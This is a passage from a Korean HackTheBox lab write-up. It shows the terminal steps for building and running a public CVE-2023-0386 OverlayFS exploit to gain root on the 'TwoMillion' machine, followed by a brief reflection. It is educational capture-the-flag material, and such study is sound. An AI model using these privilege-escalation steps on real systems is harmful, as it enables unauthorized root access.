``` bash
admin@2million:/tmp/CVE-2023-0386$ ls
exp.c  fuse.c  getshell.c  Makefile  ovlcap  README.md  test
admin@2million:/tmp/CVE-2023-0386$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking gcc -o exp exp.c -lcap
gcc -o gc getshell.c
admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
```

## [0x07] exploit
---
ssh로 shell을 하나 더 붙인 후 github 설명에 있던 바와 같이 ./exp를 실행해주면 root 권한을 획득하게 된다.
``` bash
┌──(root㉿kali)-[/home/user/htb]
└─# ssh admin@10.10.11.221

admin@2million:~$ cd /tmp/CVE-2023-0386/

admin@2million:/tmp/CVE-2023-0386$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
admin@2million:/tmp/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Mar 29 04:08 .
drwxr-xr-x 6 root   root     4096 Mar 29 04:08 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386# sudo whoami
root
```

이제 모든 문제를 풀 수 있게 된다.

## [0x08] conclusion
---
starting point가 아닌 첫 문제였는데....뭔가 풀면서 억지로 짜여진 느낌이 강하게 든다...🤔 공략을 자꾸 볼 수 밖에 없다니...다른 문제도 열심히 풀어야겠다.

